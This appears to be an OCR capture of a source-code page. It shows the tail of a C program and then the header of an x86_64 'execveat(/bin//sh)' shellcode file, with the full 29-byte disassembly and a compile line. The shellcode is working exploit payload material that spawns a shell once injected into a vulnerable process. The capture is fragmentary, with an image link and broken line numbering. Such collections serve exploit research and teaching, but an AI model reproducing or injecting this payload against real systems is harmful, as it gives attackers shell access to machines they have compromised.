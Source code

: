       138.     }
    
      139.     if ((size_t)nbytes < data_size) {
    
      140.         fprintf(stderr, "short write\n");
    
      141.         return EXIT_FAILURE;
    
      142.     }
    
      143.   144.     return EXIT_SUCCESS;
    
      145. }
    
    
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175320.png)

    
          1. /** x86_64 execveat("/bin//sh") 29 bytes shellcode
    
      2.   3. --[ AUTHORS
    
      4.     * ZadYree
    
      5.     * vaelio
    
      6.     * DaShrooms
    
      7.   8. ~ Armature Technologies R&D
    
      9.   10. --[ asm
    
      11. 6a 42                   push   0x42
    
      12. 58                      pop    rax
    
      13. fe c4                   inc    ah
    
      14. 48 99                   cqo
    
      15. 52                      push   rdx
    
      16. 48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
    
      17. 2f 73 68
    
      18. 57                      push   rdi
    
      19. 54                      push   rsp
    
      20. 5e                      pop    rsi
    
      21. 49 89 d0                mov    r8, rdx
    
      22. 49 89 d2                mov    r10, rdx
    
      23. 0f 05                   syscall
    
      24.   25. --[ COMPILE
    
      26. gcc execveat.c -o execveat # NX-compatible :)
    
      27.   28. **/
    